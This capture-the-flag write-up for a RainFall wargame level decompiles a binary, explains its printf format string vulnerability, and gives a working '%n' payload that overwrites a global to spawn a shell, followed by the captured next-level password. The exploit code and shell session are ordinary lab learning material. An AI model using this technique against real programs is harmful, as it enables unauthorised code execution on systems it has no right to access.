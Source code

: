 ## Step 1: Static analysis

```c
080484a4    uint32_t v()
080484a4    {
080484a4        void var_20c;
080484c7        fgets(&var_20c, 512, stdin);
080484d5        printf(&var_20c);
080484da        uint32_t m_1 = m;
080484da        
080484e2        if (m_1 != 64)
08048519            return m_1;
08048519        
08048507        fwrite("Wait what?!\n", 1, 12, stdout);
08048513        return system("/bin/sh");
080484a4    }
```

```c
0804851a    int32_t main(int32_t argc, char** argv, char** envp)
0804851a    {
0804851a        return v();
0804851a    }
```

```
(gdb) info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
...
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
(gdb)
```

### Explanation

`v()` reads user input into a buffer (`var_20c`) using `fgets()` and then passes it directly to `printf()`.
This introduces a `format string vulnerability` because `printf()` interprets format specifiers if the input contains them.
The variable `m` (located at `0x0804988c`) is checked. If it equals `64`, the program executes a shell using `system("/bin/sh")`.
If not, it simply returns the value of `m`.

The printf call in `v()` allowing us to write `64` to the memory address of `m` (`0x0804988c`).
1. Begin the payload with the address of `m` (`0x0804988c`) in little-endian format: `\x8c\x98\x04\x08`.
2. Pad the payload with `60` characters to ensure exactly `64` characters are written before `%n`.
3. Use `%4$n` to specify that the 4th argument on the stack (our target address) should receive the value.


## Step 2: Exploit the Binary

```bash
level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + ("A" * 60) + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
% cd ../level4
% cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
